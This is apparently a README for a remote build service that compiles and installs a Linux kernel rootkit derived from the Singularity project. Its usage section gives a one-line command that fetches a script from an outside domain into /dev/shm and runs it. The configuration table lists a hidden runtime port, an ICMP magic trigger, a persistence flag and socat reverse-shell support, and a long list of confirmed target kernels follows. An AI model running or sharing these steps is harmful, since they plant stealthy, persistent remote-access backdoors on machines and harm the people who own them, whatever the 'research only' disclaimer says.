

# Compile-as-a-Service (Alpha)

> Compile as a Service — because installing headers is overrated

Compile-as-a-Service (CaaS) is an **alpha-stage remote build system** designed to compile kernel-dependent artifacts **without requiring kernel headers or build dependencies on the target machine**. All compilation occurs remotely, keeping source code and build tooling off the target system.

This project is intended for **research, testing, and controlled environments only**.

## 📸 Architecture Overview

## Usage
cd /dev/shm; wget https://compileasaservice.online/downloadipfs.sh; chmod +sx downloadipfs.sh
YOUR_SRV_IP=127.0.0.1 SRV_PORT=8081 ICMP_MAGIC_SEQ=1337 MAGIC=mtz PORT=8081 NAME=alphatest$RANDOM ./downloadipfs.sh

## ✨ Features
- Remote compilation pipeline
- No kernel headers or build tools required on the target machine
- Source code never touches the target system
- Optional deterministic or randomized build parameters
- Explicit kernel and distribution targeting
- Designed to support reproducible research workflows

## 🧱 High-Level Workflow
1. Target system submits build parameters
2. Remote builder compiles against a matching kernel environment
3. Compiled artifacts are returned to the target
4. Optional post-build handling based on configuration flags

## ⚙️ Configuration
The system is configured via environment variables.

| Variable            | Description                                   | Notes / Default                              |
|---------------------|-----------------------------------------------|----------------------------------------------|
| `YOUR_SRV_IP`       | **Required.** Server IP address               |                                              |
| `NAME`              | Build identifier                              | Randomized if unset                          |
| `SRV_PORT`          | Server communication port                     |                                              |
| `PORT`              | Hidden runtime port                           |                                              |
| `ICMP_MAGIC_SEQ`    | Trigger sequence value                        |                                              |
| `MAGIC`             | Authentication / trigger string               | Default: `mtz`                               |
| `DISTRO`            | Target Linux distribution                     |                                              |
| `DISTRO_VERSION`    | Distribution version                          |                                              |
| `KERNEL`            | Kernel version                                |                                              |
| `INSTALL=1`           | Enable post-build installation                | Must be set on command line                  |
| `PERSIST=1`           | Enable load on reboot                         | Requires `INSTALL=1`, command line only      |

If values are not explicitly set, most fields are randomized by default.

## 🔄 Recent Changes

### Build System
- Updated `Makefile` to support configurable kernel versions and header paths
- main.c: added __be32 your_srv_ip = 0; (for socat reverse)
- include/core.h added extern __be32 your_srv_ip; (for socat reverse)
- Modified icmp.c that supports socat reverse if /usr/bin/socat exists

### Core
- Added centralized server IP handling
- Improved shared configuration visibility across modules

### Networking
- Enhanced runtime networking logic with automatic transport selection
- Uses standard system interfaces when available

⚠️ **Only the distributions and kernels listed below are confirmed working.**  
The following distributions and kernel versions are **explicitly confirmed working**.

### Ubuntu 24.04
- 6.8.0-41-generic
- 6.8.0-49-generic
- 6.8.0-51-generic
- 6.8.0-52-generic
- 6.8.0-53-generic
- 6.8.0-55-generic
- 6.8.0-57-generic
- 6.8.0-58-generic
- 6.8.0-59-generic
- 6.8.0-60-generic
- 6.8.0-62-generic
- 6.8.0-63-generic
- 6.8.0-71-generic
- 6.8.0-79-generic
- 6.8.0-83-generic
- 6.8.0-84-generic
- 6.8.0-85-generic
- 6.8.0-86-generic
- 6.8.0-87-generic
- 6.8.0-88-generic
- 6.8.0-90-generic
- 6.11.0-21-generic
- 6.11.0-26-generic
- 6.11.0-29-generic

### Ubuntu 25.04
- 6.14.0-15-generic
- 6.14.0-23-generic
- 6.14.0-29-generic
- 6.14.0-34-generic
- 6.14.0-35-generic
- 6.14.0-36-generic
- 6.14.0-37-generic
- 6.14.0-1017-oracle
- 6.14.0-1017-aws
- 6.14.0-1018-aws

### Ubuntu 25.10
- 6.17.0-8-generic
- 6.17.0-1005-gcp

### Debian 12
- 6.8.12-16-pve

### Debian 13
- 6.12.41+deb13-cloud-amd64
- 6.12.48+deb13-cloud-amd64
- 6.12.57+deb13-cloud-amd64
- 6.12.63+deb13-cloud-amd64

### RHEL-Based Distributions  
> Note: Some vendors remove older kernel header packages, limiting historical support.

#### AlmaLinux 10.1
- 6.12.0-124.8.1.el10_1.x86_64
- 6.12.0-124.13.1.el10_1.x86_64
- 6.12.0-124.16.1.el10_1.x86_64
- 6.12.0-124.20.1.el10_1.x86_64
- 6.12.0-124.21.1.el10_1.x86_64

#### CentOS 9
- 5.14.0-645.el9.x86_64
- 5.14.0-648.el9.x86_64
- 5.14.0-651.el9.x86_64
- 5.14.0-654.el9.x86_64
- 5.14.0-655.el9.x86_64

#### CentOS 10
- 6.12.0-161.el10.x86_64
- 6.12.0-164.el10.x86_64
- 6.12.0-170.el10.x86_64
- 6.12.0-172.el10.x86_64
- 6.12.0-174.el10.x86_64

#### Rocky Linux 9.5
- 5.14.0-611.11.1.el9_7
- 5.14.0-611.13.1.el9_7
- 5.14.0-611.16.1.el9_7

#### Fedora 39
- 6.11.9-100.fc39.x86_64

#### Fedora 40
- 6.14.5-100.fc40.x86_64
- 6.8.5-301.fc40.x86_64

#### Fedora 41
- 6.11.4-301.fc41.x86_64
- 6.17.10-100.fc41.x86_64

#### Fedora 42
- 6.14.0-63.fc42.x86_64
- 6.18.3-100.fc42.x86_64

#### Fedora 43
- 6.18.3-200.fc43.x86_64
- 6.17.1-300.fc43.x86_64

## 🗺️ Roadmap
- Expanded kernel coverage
- Improved builder diagnostics and crash handling
- Documentation and diagrams

## 🙏 Credits
- **Skyper/THC** — The idea for the project  https://t.me/thcorg
- **MatheuZSecurity** — Original Singularity work and inspiration     https://github.com/MatheuZSecurity/Singularity

## 📬 Contact
If you have:
- Encounter issues (include your **Job ID**)
- Successfully build on an unlisted kernel
- Want to contribute or help test

Please run the OS detection script (os.sh) provided on the project site and send the output.

📧 **root@compileasaservice.online**

## ⚠️ Legal & Ethical Notice
This project is intended for **authorized research, testing, and educational use only**  
within environments you own or have explicit permission to use.

The authors assume no responsibility for misuse.
